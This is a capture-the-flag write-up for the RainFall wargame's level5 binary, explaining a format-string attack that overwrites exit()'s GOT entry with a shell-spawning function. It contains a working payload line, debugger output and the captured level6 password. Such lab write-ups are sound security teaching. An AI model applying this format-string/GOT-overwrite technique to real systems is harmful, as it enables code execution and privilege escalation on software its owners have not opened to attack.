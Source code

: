 We were tasked with exploiting a format string vulnerability in the `level5` binary to gain access to the next level (`level6`).

### 1. **Vulnerabilities Identified**:
   - **Format String Vulnerability**: The program uses `printf` which is vulnerable to a format string attack. This allows you to write arbitrary data to memory locations.
   - **Writable Global Offset Table (GOT)**: The GOT stores the addresses of dynamically linked functions like `exit()`. Since it’s writable, you can overwrite a function pointer in the GOT, causing the program to call another function (in this case, the `o()` function which calls `system()` and spawns a shell).
   
### 2. **Analyzing the Binary**:
   - We used GDB and `objdump` to analyze the binary.
   - The function `o()` was located at address `0x080484a4`.
   - The address of `exit()` in the GOT was found to be `0x08049838`.

``` bash 
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit

(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
(gdb)

```

### 3. **Exploitation**:
   - **Goal**: We wanted to overwrite the address of `exit()` in the GOT with the address of the function `o()`, so that whenever the program calls `exit()`, it would instead jump to `o()`, which would then call `system()` and spawn a shell.
   
   - **Steps to Exploit**:
     1. **Find the address of `exit()`**: The address of `exit()` in the GOT was found at `0x08049838`.
     2. **Find the address of `o()`**: The address of `o()` was found at `0x080484a4`.
     3. **Craft the Format String**: To overwrite the GOT entry for `exit()`, we created a format string that would:
        - Print a specific number of characters (`%134513824d`) to match the address of `o()` in decimal.
        - Use `%n` to write that value to the address of `exit()` in the GOT.
     4. **Execute the Exploit**: We crafted the following format string attack:
        ```python
        python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
        ```
        This attack overwrites the GOT entry for `exit()` with the address of `o()`. When `exit()` is called later in the program, it jumps to `o()`, which then calls `system()` and spawns a shell.

### 4. **Final Execution**:
   - You ran the exploit:
     ```bash
    cat /tmp/exploit5 - | ./level5 | tr -d " "     
    whoami
    8level6
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ^C
    level5@RainFall:~$ su level
    ```

     This shows that you successfully switched to `level6` by executing the format string attack.

### 5. **Accessing the Flag**:
   - After spawning the shell, you switched to the `level6` user using `su level6` and retrieved the flag from the `.pass` file.

### 6. **Key Concepts**:
   - **Format String Attack**: By manipulating the format string in `printf`, you were able to control the program's memory and overwrite specific locations (in this case, the GOT entry).
   - **Global Offset Table (GOT)**: This table holds addresses of dynamically linked functions. By overwriting an entry in the GOT, you can change the function that gets called, leading to arbitrary code execution.
   - **Writable Memory**: Exploiting writable sections like the GOT and buffer overflows allows you to gain control over the program’s flow.

You successfully exploited the vulnerability, overwrote the GOT entry, and gained access to the shell to move on to `level6`. This is a classic example of leveraging a format string vulnerability and manipulating memory to execute arbitrary code.